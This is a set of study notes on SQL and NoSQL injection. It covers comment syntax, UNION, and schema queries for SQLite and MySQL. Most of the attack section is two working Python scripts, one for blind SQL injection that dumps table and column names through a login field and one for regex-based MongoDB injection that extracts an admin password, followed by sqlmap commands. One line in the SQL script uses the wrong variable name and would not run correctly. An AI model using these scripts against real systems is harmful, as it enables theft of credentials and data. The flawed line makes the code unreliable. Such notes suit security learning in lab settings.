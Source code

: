 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
- `select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
- `select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string

characters = string.printable
s = requests.session()

target = "http://0.0.0.0/api/sqliBlind"

def get_one_char(payload):
    for c in characters:
        response = s.post(target,json = {
            'username' : f"a' or ({payload})={ord(c)}  -- -",
            'password' : 'foo'
            }).json()
        if response['data'] == True:
            return c
    return None

def dump_tables():
    tables = ""
    payload = "select ascii(mid(group_concat(table_name),{index},1)) from information_schema.tables where table_schema=database()"
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        tables, index = table + c , index + 1
        print('[+] table = ',tables)
        c = get_one_char(payload.format(index=index))
    return tables

def dump_columns(table_name):
    columns = ""
    payload = "select ascii(mid(group_concat(column_name),{index},1)) from information_schema.columns where table_name='%s'"%(table_name)
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        columns, index = columns + c, index + 1 
        c = get_one_char(payload.format(index=index))
    return columns

table = dump_tables()

print('\n-----------\n[*] tables found: ', table)

for t in table.split(','):
    print(f'[*] columns of {t} found: ',dump_columns(t))
```

### 2.3. Nosql injection
```
import requests, string
req = requests.session()
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"

def blind(data):
    for char in arr:
        res = req.post('http://0.0.0.0/api/sqliMongo',json={'username':'admin','password':{"$regex": f"^{data}{char}"}}).json()
        if res['data']:
            return char
    return None        

def dump_data():
    data = '' 
    while True:
        char = blind(data)
        if char == "$":
            return data 
        data += char 
        print('[+] password: = ',data)

def detect_sqli():
    res = req.post('http://0.0.0.0/api/sqliMongo',json={'username': {"$ne" : 'a'},'password':  {"$ne" : 'a'} }).json()
    print(res)

print('[+] password found : ',dump_data())

```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -r file_request --batch -D database --tables`
